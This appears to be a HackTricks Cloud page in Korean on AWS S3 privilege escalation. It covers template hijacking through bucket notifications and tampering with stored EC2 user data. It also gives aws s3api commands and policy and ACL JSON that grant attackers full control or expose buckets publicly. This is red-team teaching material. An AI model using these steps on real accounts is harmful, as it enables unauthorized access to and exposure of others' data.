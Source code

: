 # AWS - S3 Privesc

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="../../../.gitbook/assets/image (1) (1) (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1) (1) (1).png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

## S3

### `s3:PutBucketNotification`, `s3:PutObject`, `s3:GetObject`

흥미로운 버킷에 대한 이러한 권한을 가진 공격자는 리소스를 탈취하고 권한을 상승시킬 수 있습니다.

예를 들어, "cf-templates-nohnwfax6a6i-us-east-1"이라는 클라우드포메이션 버킷에 대한 이러한 **권한을 가진 공격자는** 배포를 탈취할 수 있습니다. 접근은 다음 정책으로 부여될 수 있습니다:
```json
{
"Version":"2012-10-17",
"Statement":[
{
"Effect":"Allow",
"Action":[
"s3:PutBucketNotification",
"s3:GetBucketNotification",
"s3:PutObject",
"s3:GetObject"],
"Resource":[
"arn:aws:s3:::cf-templates-*\/*",
"arn:aws:s3:::cf-templates-*"]
},
{
"Effect":"Allow",
"Action":"s3:ListAllMyBuckets",
"Resource":"*"
}]
}
```
그리고 하이재킹은 **템플릿이 버킷에 업로드되는 순간부터** **템플릿이 배포되는 순간까지의 작은 시간 창** 때문에 가능합니다. 공격자는 자신의 계정에 **람다 함수**를 생성하여 **버킷 알림이 전송될 때 트리거**되도록 하고, **버킷**의 **내용**을 **하이재킹**할 수 있습니다.

![](<../../../.gitbook/assets/image (174).png>)

Pacu 모듈 [`cfn__resouce_injection`](https://github.com/RhinoSecurityLabs/pacu/wiki/Module-Details#cfn__resource_injection)을 사용하여 이 공격을 자동화할 수 있습니다.\
자세한 정보는 원본 연구를 확인하세요: [https://rhinosecuritylabs.com/aws/cloud-malware-cloudformation-injection/](https://rhinosecuritylabs.com/aws/cloud-malware-cloudformation-injection/)

### `s3:PutObject`, `s3:GetObject` <a href="#s3putobject-s3getobject" id="s3putobject-s3getobject"></a>

이들은 **S3에 객체를 가져오고 업로드하는** 권한입니다. AWS 내부(및 외부)의 여러 서비스가 **구성 파일**을 저장하기 위해 S3 스토리지를 사용합니다.\
이들에 대한 **읽기 접근** 권한이 있는 공격자는 그 안에서 **민감한 정보**를 찾을 수 있습니다.\
이들에 대한 **쓰기 접근** 권한이 있는 공격자는 **데이터를 수정하여 일부 서비스를 악용하고 권한을 상승시키려고 시도할 수 있습니다**.\
다음은 몇 가지 예입니다:

* EC2 인스턴스가 **사용자 데이터를 S3 버킷에 저장하고 있는 경우**, 공격자는 이를 수정하여 **EC2 인스턴스 내에서 임의의 코드를 실행**할 수 있습니다.

### `s3:PutBucketPolicy`

공격자는 **같은 계정에서** 있어야 하며, 그렇지 않으면 `지정된 방법이 허용되지 않습니다`라는 오류가 발생합니다. 이 권한을 가진 공격자는 자신에게 버킷에 대한 더 많은 권한을 부여하여 읽기, 쓰기, 수정, 삭제 및 버킷을 노출할 수 있습니다.
```bash
# Update Bucket policy
aws s3api put-bucket-policy --policy file:///root/policy.json --bucket <bucket-name>

## JSON giving permissions to a user and mantaining some previous root access
{
"Id": "Policy1568185116930",
"Version":"2012-10-17",
"Statement":[
{
"Effect":"Allow",
"Principal":{
"AWS":"arn:aws:iam::123123123123:root"
},
"Action":"s3:ListBucket",
"Resource":"arn:aws:s3:::somebucketname"
},
{
"Effect":"Allow",
"Principal":{
"AWS":"arn:aws:iam::123123123123:user/username"
},
"Action":"s3:*",
"Resource":"arn:aws:s3:::somebucketname/*"
}
]
}

## JSON Public policy example
### IF THE S3 BUCKET IS PROTECTED FROM BEING PUBLICLY EXPOSED, THIS WILL THROW AN ACCESS DENIED EVEN IF YOU HAVE ENOUGH PERMISSIONS
{
"Id": "Policy1568185116930",
"Version": "2012-10-17",
"Statement": [
{
"Sid": "Stmt1568184932403",
"Action": [
"s3:ListBucket"
],
"Effect": "Allow",
"Resource": "arn:aws:s3:::welcome",
"Principal": "*"
},
{
"Sid": "Stmt1568185007451",
"Action": [
"s3:GetObject"
],
"Effect": "Allow",
"Resource": "arn:aws:s3:::welcome/*",
"Principal": "*"
}
]
}
```
### `s3:GetBucketAcl`, `s3:PutBucketAcl`

공격자는 이러한 권한을 악용하여 **특정 버킷에 대한 더 많은 접근 권한을 부여**할 수 있습니다.\
공격자가 동일한 계정에 속할 필요는 없음을 유의하십시오. 또한 쓰기 접근 권한
```bash
# Update bucket ACL
aws s3api get-bucket-acl --bucket <bucket-name>
aws s3api put-bucket-acl --bucket <bucket-name> --access-control-policy file://acl.json

##JSON ACL example
## Make sure to modify the Owner’s displayName and ID according to the Object ACL you retrieved.
{
"Owner": {
"DisplayName": "<DisplayName>",
"ID": "<ID>"
},
"Grants": [
{
"Grantee": {
"Type": "Group",
"URI": "http://acs.amazonaws.com/groups/global/AuthenticatedUsers"
},
"Permission": "FULL_CONTROL"
}
]
}
## An ACL should give you the permission WRITE_ACP to be able to put a new ACL
```
### `s3:GetObjectAcl`, `s3:PutObjectAcl`

공격자는 이러한 권한을 악용하여 버킷 내 특정 객체에 대한 더 많은 액세스를 부여받을 수 있습니다.
```bash
# Update bucket object ACL
aws s3api get-object-acl --bucket <bucekt-name> --key flag
aws s3api put-object-acl --bucket <bucket-name> --key flag --access-control-policy file://objacl.json

##JSON ACL example
## Make sure to modify the Owner’s displayName and ID according to the Object ACL you retrieved.
{
"Owner": {
"DisplayName": "<DisplayName>",
"ID": "<ID>"
},
"Grants": [
{
"Grantee": {
"Type": "Group",
"URI": "http://acs.amazonaws.com/groups/global/AuthenticatedUsers"
},
"Permission": "FULL_CONTROL"
}
]
}
## An ACL should give you the permission WRITE_ACP to be able to put a new ACL
```
### `s3:GetObjectAcl`, `s3:PutObjectVersionAcl`

이 권한을 가진 공격자는 특정 객체 버전에 Acl을 설정할 수 있을 것으로 예상됩니다.
```bash
aws s3api get-object-acl --bucket <bucekt-name> --key flag
aws s3api put-object-acl --bucket <bucket-name> --key flag --version-id <value> --access-control-policy file://objacl.json
```
{% hint style="success" %}
AWS 해킹 배우기 및 연습하기:<img src="../../../.gitbook/assets/image (1) (1) (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1) (1) (1).png" alt="" data-size="line">\
GCP 해킹 배우기 및 연습하기: <img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>HackTricks 지원하기</summary>

* [**구독 계획**](https://github.com/sponsors/carlospolop) 확인하기!
* **💬 [**Discord 그룹**](https://discord.gg/hRep4RUj7f) 또는 [**텔레그램 그룹**](https://t.me/peass)에 참여하거나 **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks_live)**를 팔로우하세요.**
* **[**HackTricks**](https://github.com/carlospolop/hacktricks) 및 [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) 깃허브 리포지토리에 PR을 제출하여 해킹 트릭을 공유하세요.**

</details>
{% endhint %}
